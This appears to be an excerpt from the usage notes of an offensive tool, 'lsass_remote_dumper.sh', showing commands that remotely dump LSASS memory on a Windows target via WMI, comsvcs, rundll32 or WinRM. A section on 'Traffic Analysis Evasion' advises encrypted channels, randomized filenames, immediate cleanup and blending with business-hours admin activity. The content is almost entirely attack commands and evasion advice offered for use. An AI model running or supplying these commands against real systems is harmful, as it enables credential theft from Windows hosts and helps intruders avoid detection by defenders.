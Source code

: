 Bash


# Use built-in Windows tools only
./lsass_remote_dumper.sh -r -t target -u admin -p "password" \
  -x wmi -m comsvcs

# Immediate cleanup
./lsass_remote_dumper.sh -r -t target -u admin -p "password" \
  -x wmi -m rundll32 -c

# Randomize output filenames
./lsass_remote_dumper.sh -r -t target -u admin -p "password" \
  -x wmi -m comsvcs -f "temp_$(date +%s)"


Traffic Analysis Evasion

Bash


# Use encrypted channels
./lsass_remote_dumper.sh -r -t target:5986 -u admin -p "password" \
  -x winrm -m powershell  # WinRM over HTTPS

# Blend with normal traffic
# Execute during business hours
# Use standard administrative accounts
# Follow normal operational patterns


